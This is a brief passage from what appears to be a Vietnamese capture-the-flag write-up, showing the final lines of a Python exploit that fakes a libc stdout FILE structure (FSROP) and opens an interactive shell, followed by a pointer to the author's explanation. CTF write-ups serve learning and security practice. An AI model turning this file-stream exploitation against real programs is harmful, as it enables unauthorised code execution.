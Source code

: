 ```python
    of(b"A"*0x30+fp.read(libc.sym._IO_2_1_stdout_, 0x300))
    view(fsrop(libc.sym._IO_2_1_stdout_))

    r.interactive()

if __name__ == "__main__":
    main()
```

lời giải thích của author 

![image](https://hackmd.io/_uploads/Hym9VerDkl.png)
